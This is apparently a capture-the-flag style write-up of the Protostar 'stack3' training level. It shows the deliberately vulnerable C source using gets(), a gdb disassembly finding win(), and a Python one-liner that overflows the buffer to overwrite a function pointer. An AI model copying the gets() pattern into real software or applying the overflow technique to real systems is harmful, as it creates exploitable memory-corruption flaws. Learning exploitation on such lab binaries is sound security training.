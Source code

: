 # Stack3

## Description

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

This level is at `/opt/protostar/bin/stack3`

### Hint

- both gdb and objdump is your friend you determining where the win() function lies in memory.

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Approach

We know that `gets()` is the vulnerability function. As mentioned in the description a function `win()` is defined. But never been called in `main()`. So, It might be a return pointer. By using GDB, Get the address of `win()` function.

```bash
(gdb) disassemble win
Dump of assembler code for function win:
0x08048424 <win+0>:     push   ebp
0x08048425 <win+1>:     mov    ebp,esp
0x08048427 <win+3>:     sub    esp,0x18
0x0804842a <win+6>:     mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
End of assembler dump.
```

## Exploitation

Make payload and Exploit.

```bash
python -c 'import struct; print "A"*64+struct.pack("I",0x08048424)' | ./stack3
```
